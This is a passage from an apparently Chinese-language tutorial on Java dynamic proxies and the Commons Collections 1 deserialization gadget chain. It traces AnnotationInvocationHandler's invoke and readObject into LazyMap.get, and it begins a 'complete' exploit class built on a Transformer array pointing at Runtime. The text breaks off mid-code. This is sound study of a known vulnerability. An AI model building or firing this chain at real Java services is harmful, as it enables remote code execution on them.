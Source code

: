 ```
        // 传入要被代理的对象
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},invocationHandler);
        proxyMap.put("hello","world");
        String result = (String) proxyMap.get("hello");
        System.out.println(result);
    }
}
```

运行结果如下：

![1.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/e0fea803-9a14-ce9e-3eeb-079f6bb509c0.png)

此时会发现，`invoke()`被调用了两次，这是为什么呢？
来看下面这段代码

```
proxyMap.put("hello","world");
String result = (String) proxyMap.get("hello");
```
执行了两次`proxyMap`对象方法，而这个涉及到动态代理的一个重要知识点：**动态代理对象每执行一个方法时，都会被转发到实现InvocationHandler接口类的invoke方法**

接下来我们将`proxyMap.put("hello","world");`注释掉在执行一下，结果如下：

![2.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/32833581-25f4-5e8d-7dac-5a9c380b9e14.png)

明白了这里，接下来来分析cc1就很容易了

# 漏洞分析

接下来进入正题，来看一下`sun.reflect.annotation.AnnotationInvocationHandler#invoke`

![3.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/5c326955-f695-bcb9-f4af-bf8ea96ca3f1.png)

`invoke()`方法中会调用`get()`，而其中`memberValues`参数我们可控，也就是说我们通过动态代理构造一个`AnnotationInvocationHandler`实例并调用其某个方法就会触发`invoke()`从而触发到`LazyMap.get()`，接下来就要考虑怎么能够自动执行`invoke()`

![4.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/8ae2c917-8fea-c278-41d8-e9a7fd8ea6f4.png)

接下来来看一下`sun.reflect.annotation.AnnotationInvocationHandler#readObject`

![5.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/95a367d1-ddb2-00be-dccf-772d1dc64730.png)

可以看到在`readObject()`中有这么一行代码`this.memberValues.entrySet()`，而在进行反序列化时会自动执行`readObject()`方法，也就是说我们要让反序列化时执行`AnnotationInvocationHandler`的`readObject`方法，从而执行`this.memberValues.entrySet()`在自动调用`invoke()`中的`this.memberValues.get()`

完整代码如下：

```
public class CommonsCollections1 {
    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }
    public static Object unserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
```